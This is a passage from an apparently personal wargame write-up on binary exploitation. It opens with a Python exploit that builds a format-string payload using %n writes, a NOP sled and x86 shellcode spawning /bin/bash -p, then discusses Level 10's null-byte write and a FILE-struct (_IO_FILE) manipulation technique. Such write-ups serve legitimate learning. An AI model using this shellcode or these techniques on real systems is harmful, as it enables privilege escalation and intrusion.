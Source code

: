 ```
shellcode = "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"
first = "\x0c\xfc\xff\xbf"
second = "\x0d\xfc\xff\xbf"
third = "\x0e\xfc\xff\xbf"
fourth = "\x0f\xfc\xff\xbf"
print first + "LOLO" + second + "LOLO" + third + "LOLO" + fourth + "|%08xx|%08x|%15x|%n%184x%n%263x%n%192x%n" + ("\x90" * 100) + shellcode #0xbffff8a0
```

#### Level 10

This level took me a LOOOOONG time, and I ended up having to look at another writeup to get hints to solve :/. The first thing I noticed when looking at the source was the 0-length char array. I'd never seen this construct before, but some googling revealed that it ends up being another pointer to the start of the struct (since no memory is allocated for the array itself). Essentially, the char array gives us a single write-anywhere in memory. However, with the code we are given, we can only write the null (\x00) byte. I spent a lot of time on the following approaches, none of which worked out.

- Overwriting the saved EIP to point to my input buffer
- Looking for something in the struct our array points at to overwrite
- Overwriting the pointer in argv to point to the same location as the input

Eventually, I gave in and looked at another writeup for hints. The person in question had fiddled with the FILE struct to get it to re-read in the password as the error message, and dump it out even on a "failure". This was interesting to me, since I had never worked with FILE structs before. Here are some of the important values we'll need to look at (from: [https://opensource.apple.com/source/gcc/gcc-934.3/libio/libio.h](https://opensource.apple.com/source/gcc/gcc-934.3/libio/libio.h))

```
struct _IO_FILE {
  int _flags;		/* High-order word is _IO_MAGIC; rest is flags. */
#define _IO_file_flags _flags

  /* The following pointers correspond to the C++ streambuf protocol. */
  /* Note:  Tk uses the _IO_read_ptr and _IO_read_end fields directly. */
  char* _IO_read_ptr;	/* Current read pointer */
  char* _IO_read_end;	/* End of get area. */
  char* _IO_read_base;	/* Start of putback+get area. */
  char* _IO_write_base;	/* Start of put area. */
  char* _IO_write_ptr;	/* Current put pointer. */
  char* _IO_write_end;	/* End of put area. */
  char* _IO_buf_base;	/* Start of reserve area. */
  char* _IO_buf_end;	/* End of reserve area. */
  /* The following fields are used to support backing up and undo. */
  char *_IO_save_base; /* Pointer to start of non-current get area. */
  char *_IO_backup_base;  /* Pointer to first valid character of backup area */
  char *_IO_save_end; /* Pointer to end of non-current get area. */

  /* more below ... */
};
```
